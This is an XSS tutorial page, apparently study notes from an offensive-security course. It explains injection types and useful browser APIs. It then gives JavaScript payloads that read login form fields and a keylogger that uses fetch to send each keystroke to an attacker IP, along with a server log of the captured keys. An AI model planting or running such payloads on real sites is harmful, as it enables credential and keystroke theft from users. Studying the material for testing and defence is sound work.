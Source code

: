```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS 101

{% hint style="info" %}
**Cross-Site Scripting (XSS)** is a vulnerability where an attacker injects malicious scripts into web pages viewed by other users, typically through input fields or URL parameters.
{% endhint %}

{% hint style="danger" %}
This can lead to the theft of cookies, session tokens, or other sensitive data, and can also allow attackers to perform actions on behalf of the user or deface web pages.
{% endhint %}

{% hint style="success" %}
Sanitize and escape user inputs, use Content Security Policy (CSP) headers, and validate input on both client and server sides to prevent unauthorized script execution.
{% endhint %}

## General Info

In layman's terms when a web page is loaded, the browser processes its HTML code, and creates a [**Document Object Model (DOM)**](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model) of the page, aka **DOM tree** (Figure1).

<figure><img src="../../../../.gitbook/assets/html2dom.png" alt=""><figcaption><p>Figure 1: The HTML to DOM process.</p></figcaption></figure>

JavaScript is used to access and modify all of the DOM's elements in order to create dynamic HTML content. **XSS's goal is to inject JavaScript code for accessing and/or modifying the page's DOM**. For instance, if our goal was to modify the page's header (`h1`) element, we could do this using JavaScript.

```javascript
// modifying the h1 element
document.querySelector('h1').textContent = 'Hello, DOM!';
```

## XSS Types

There are mainly two XSS classifications (Figure 2):

1. Based on the level of the payload's persistence: [**Reflected**](reflected.md) vs. [**Stored**](stored.md).
2. Based on which location the payload is outputted: **Server** vs. [**Client**](dom-based.md) (_aka_ _**DOM-based**_).&#x20;

<figure><img src="../../../../.gitbook/assets/xss_classification.png" alt=""><figcaption><p>Figure 2: XSS classifications.</p></figcaption></figure>

{% hint style="info" %}
* [Don't use `alert()`](https://portswigger.net/research/alert-is-dead-long-live-print), but rather `print()` or `prompt()`.
* Check for **HTML injection** first and then for XSS.
{% endhint %}

## Web APIs

There are many built-in [web APIs](https://developer.mozilla.org/en-US/docs/Web/API), but the following are the most useful from an XSS-standpoint.

<table><thead><tr><th width="132">API</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Console_API"><code>console</code></a></td><td>Used for <strong>debugging</strong> tasks, such as logging messages (<code>console.log</code>).</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Window"><code>window</code></a></td><td>Represents a window containing a DOM object. The <code>document</code> property points to the DOM document loaded in that window. Some useful properties are <code>localStorage</code>, <code>location</code>, and <code>alert</code>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Document"><code>document</code></a></td><td>Represents any web page loaded in the browser and serves as an entry point in the web page's content, which is the DOM tree. This is <strong>the most effective interface for exploiting an XSS flaw</strong>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API"><code>fetch</code></a></td><td>Allows <strong>fetching local and remote resources</strong>. It is <strong>non-blocking</strong>, i.e., the UI won't be locked up while the request is made and the response is returned. It does not return the data right away, instead, it <strong>returns a promise</strong> to complete the execution. To access the response, we need to use the <code>then</code> method and pass in a function to execute when the response is available.</td></tr></tbody></table>

## Example

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We have an app which contains a login form and our goal is to extract the `username` and `password` field values. We can use the `document` and the `console` APIs to achieve that (Figure 3).

{% hint style="info" %}
In HTML, text boxes are created using the [`input`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/input) tag.
{% endhint %}

```javascript
// save the returned array into a variable
let inputs = document.getElementsByTagName("input")
// loop through the elements and extract their value
for (let input of inputs) {
  // log each value to the console
  console.log(input.value)
```

<figure><img src="../../../../.gitbook/assets/web_xss_101_1.png" alt=""><figcaption><p>Figure 3: Extracting the values of the targeted fields.</p></figcaption></figure>

We might also want to create a custom keylogger to extract information (Figure 4).

```javascript
// a function the logs keypresses to the console
function logKey(event){
    console.log(event.key)
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

<figure><img src="../../../../.gitbook/assets/web_xss_101_2.png" alt=""><figcaption><p>Figure 4: Creating a custom keylogger.</p></figcaption></figure>

If we send the above script to our target the keystrokes will be logged into their browser's console, but we won't have access to it. We can modify our script and use the `fetch` API to exfiltrate the data.

```javascript
// a function the sents keypresses to the our server via a GET request
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key);
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=I HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key= HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=L HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:56] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:56] "GET /k?key=i HTTP/1.1" 404 -
<SNIP>
```
